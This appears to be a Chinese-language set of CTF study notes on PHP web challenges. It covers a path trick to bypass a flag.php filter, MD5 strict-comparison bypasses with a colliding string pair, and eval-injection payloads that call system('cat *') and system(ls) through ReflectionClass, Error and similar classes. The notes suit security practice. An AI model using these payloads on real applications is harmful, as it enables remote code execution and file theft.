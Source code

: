 * ==highlight_file($_GET['u'])==

  参数u限制了不能等于flag.php,可用./flag.php

## md5碰撞

* ==强比较==
1. 数组绕过：`a[]=1&b[]=2`
2. 不同明文相同MD5值
    a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

## 获得类的信息
* ==var_dump==

var_dump能输出变量的信息，也可以输出类的信息

![image-20241101134132415](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202411011341443.png)

<span alt="dotted">“=”赋值的优先级高于and</span>

eval执行php代码，payload:`?v1=1&v2=var_dump($ctfshow)/*&v3=*/;`

中间无效的字符串通过构造注释符号注释掉

### php内置类

*  ==ReflectionClass==建立反射类

反射类即类的映射

$class = new ReflectionClass('ctfshow');   建立ctfshow这个类的反射类

`?v1=1&v2=echo new ReflectionClass&v3=;`

不仅可以**映射类**，也可以**映射方法**。

注意：<span alt="wavy">中间的方法不需要加分号</span>

```php
<?php
	error_reporting(0);
	echo new ReflectionClass(system('ls')());
?>
```

`?v1=ReflectionClass&v2=system('cat *')`

> 类似还可以用:
>
> ?v1= CachingIterator&v2=system(ls)
> ?v1= DirectoryIterator&v2=system(ls)
> ?v1= Error&v2=system(ls)
> ?v1= Exception&v2=system(ls)
